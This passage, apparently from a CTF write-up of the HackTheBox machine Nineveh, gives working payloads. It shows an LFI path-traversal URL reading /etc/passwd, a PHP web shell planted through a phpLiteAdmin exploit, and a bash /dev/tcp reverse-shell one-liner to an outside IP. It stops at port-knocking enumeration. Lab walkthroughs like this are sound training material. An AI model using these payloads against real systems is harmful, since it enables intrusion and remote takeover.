 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913115123.png)

tried few variants and I was able to see /etc/passwd 
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../../etc/passwd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913115518.png)

But for now I don't have idea where to search for interesting files so let's jump into 443
Before getting access I searched for exploits and I found Remote PHP code injection
https://www.exploit-db.com/exploits/24044

Reading this poc we need to create db with .php extension and create table with default value
```
<?php system($_REQUEST ["cmd"]); ?>
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913121854.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913121907.png)

Great using this poc and apply path to LFI we manage to have web shell

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../var/tmp/hello.php&cmd=whoami
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913123047.png)

Ok now quick upgrade to reverse shell with bash oneliner:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../var/tmp/hello.php&cmd=/bin/bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.8/443+0%3E%261%27
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913123357.png)

We got shell, now let's check for open ports cause we have username and id_rsa

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913123553.png)

## Gaining Access, port knocking

And indeed port 22 is open so I thing there must be sth like whitelisting. Check processes
```
ps aux
```

and I found knockd binary running 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913123825.png)

Now let's check knockd.conf 
